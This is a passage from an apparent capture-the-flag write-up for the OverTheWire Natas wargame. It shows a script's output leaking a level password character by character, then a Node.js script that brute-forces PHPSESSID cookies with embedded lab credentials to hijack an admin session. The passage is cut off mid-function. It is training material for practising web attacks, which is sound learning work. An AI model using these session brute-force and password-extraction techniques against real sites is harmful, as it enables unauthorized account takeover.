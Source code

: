 ```javascript
app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`));

// Outputs:
// Example app listening at http://localhost:3000
// x
// xv
// xvK
// xvKI
// xvKIq
// xvKIqD
// xvKIqDj
// xvKIqDjy
// xvKIqDjy4
// 0xvKIqDjy4O
// xvKIqDjy4OP
// xvKIqDjy4OPv
// xvKIqDjy4OPv7
// xvKIqDjy4OPv7w
// xvKIqDjy4OPv7wC
// xvKIqDjy4OPv7wCR
// xvKIqDjy4OPv7wCRg
// xvKIqDjy4OPv7wCRgD
// xvKIqDjy4OPv7wCRgDl
// xvKIqDjy4OPv7wCRgDlm
// xvKIqDjy4OPv7wCRgDlmj
// xvKIqDjy4OPv7wCRgDlmj0
// xvKIqDjy4OPv7wCRgDlmj0p
// xvKIqDjy4OPv7wCRgDlmj0pF
// xvKIqDjy4OPv7wCRgDlmj0pFs
// xvKIqDjy4OPv7wCRgDlmj0pFsC
// xvKIqDjy4OPv7wCRgDlmj0pFsCs
// xvKIqDjy4OPv7wCRgDlmj0pFsCsD
// xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
// xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
// xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
// xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
// fin
```

### Level 18 `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`
- Understanding the code, it's apparent that not a lot can be done/manipulated.
- We cannot get admin's credentials, unless we hit it's session.
- So we brute-force with all session IDs until we actuall hit it, using the following script:
```javascript
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/', (req, res) => res.send('Hello World!'));

async function req(ch) {
    const headers = {
        'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
        'Cookie': `PHPSESSID=${ch}`
    }
    const res = await axios.post(`http://natas18.natas.labs.overthewire.org/index.php?debug=1`, `username=natas19`, {headers, withCredentials: true});
    console.log(`For sessionId = ${ch}`);
    if(res.data.includes('regular')) {
        return false;
    } else {
        console.log(res.data);
```